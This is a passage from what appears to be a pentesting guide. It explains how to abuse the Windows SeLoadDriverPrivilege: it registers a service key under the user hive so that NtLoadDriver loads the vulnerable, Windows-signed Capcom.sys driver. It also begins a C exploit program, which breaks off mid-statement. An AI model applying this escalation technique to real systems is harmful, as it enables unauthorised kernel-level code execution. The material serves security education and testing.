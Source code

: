 ### Capcom.sys Driver Exploit <a href="#capcom-sys-driver-exploit" id="capcom-sys-driver-exploit"></a>

To further prove the `SeLoadDriverPrivilege` is dangerous, let's **exploit it to elevate privileges**.

You can load a new driver using  **NTLoadDriver:**

```cpp
NTSTATUS NTLoadDriver(
  _In_ PUNICODE_STRING DriverServiceName
);
```

By default the driver service name should be under `\Registry\Machine\System\CurrentControlSet\Services\`

But, according with to the **documentation** you **could** also **use** paths under **HKEY\_CURRENT\_USER**, so you could **modify** a **registry** there to **load arbitrary drivers** on the system.\
The relevant parameters that must be defined in the new registry are:

* **ImagePath:** REG\_EXPAND\_SZ type value which specifies the driver path. In this context, the path should be a directory with modification permissions by the non-privileged user.
* **Type**: Value of type REG\_WORD in which the type of the service is indicated. For our purpose, the value should be defined as SERVICE\_KERNEL\_DRIVER (0x00000001).

Therefore you could create a new registry in **`\Registry\User\<User-SID>\System\CurrentControlSet\MyService`** indicating in **ImagePath** the path to the driver and in **Type** the with value 1 and use those values on the exploit (you can obtain the User SID using: `Get-ADUser -Identity 'USERNAME' | select SID` or `(New-Object System.Security.Principal.NTAccount("USERNAME")).Translate([System.Security.Principal.SecurityIdentifier]).value`

```bash
PCWSTR pPathSource = L"C:\\experiments\\privileges\\Capcom.sys";
PCWSTR pPathSourceReg = L"\\Registry\\User\\<User-SID>\\System\\CurrentControlSet\\MyService";
```

The first one declares a string variable indicating where the vulnerable **Capcom.sys** driver is located on the victim system and the second one is a string variable indicating a service name that will be used (could be any service).\
Note, that the **driver must be signed by Windows** so you cannot load arbitrary drivers. But, **Capcom.sys** **can be abused to execute arbitrary code and is signed by Windows**, so the goal is to load this driver and exploit it.

&#x20;Load the driver:

```c
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <ntsecapi.h>
#include <stdlib.h>
#include <locale.h>
#include <iostream>
#include "stdafx.h"

NTSTATUS(NTAPI *NtLoadDriver)(IN PUNICODE_STRING DriverServiceName);
VOID(NTAPI *RtlInitUnicodeString)(PUNICODE_STRING DestinationString, PCWSTR SourceString);
NTSTATUS(NTAPI *NtUnloadDriver)(IN PUNICODE_STRING DriverServiceName);

int main()
{
	TOKEN_PRIVILEGES tp;
	LUID luid;
	bool bEnablePrivilege(true);
	HANDLE hToken(NULL);
	OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, &hToken);

	if (!LookupPrivilegeValue(
```